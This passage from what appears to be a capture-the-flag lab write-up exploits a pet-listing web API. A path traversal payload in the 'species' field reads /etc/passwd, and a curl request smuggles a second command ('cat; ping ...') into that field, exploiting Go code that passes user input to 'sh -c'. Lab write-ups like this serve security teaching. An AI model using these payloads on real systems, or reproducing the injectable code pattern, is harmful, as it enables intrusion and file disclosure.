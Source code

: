 

    POST /api/pet HTTP/1.1
    Host: pets.devzat.htb
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://pets.devzat.htb/
    Content-Type: text/plain;charset=UTF-8
    Origin: http://pets.devzat.htb
    Content-Length: 60
    Connection: close

    {"name":"0xdf","species":"../../../../../../../etc/passwd"}



The server will eventually run a command to get the description:



    sh -c cat characteristics/../../../../../../../etc/passwd



And it will show up on the page (sometimes it takes a couple refreshes
if you're working out of Repeater):

![](/img/image-20220311102709002.png)

### Command Injection POC

Command injection is the more useful exploit, so I'll turn there. Given
that I know this line from the source:



    cmd := exec.Command("sh", "-c", "cat characteristics/"+species)



I'll try submitting a payload with `species` as
`cat; ping -c 1 10.10.14.9`:



    oxdf@hacky$ curl -X POST http://pets.devzat.htb/api/pet -d '{ "name": "0xdf",  "species": "cat; ping -c 1 10.10.14.9" }' -H "'Content-Type': 'application/json'"
    Pet was added successfully

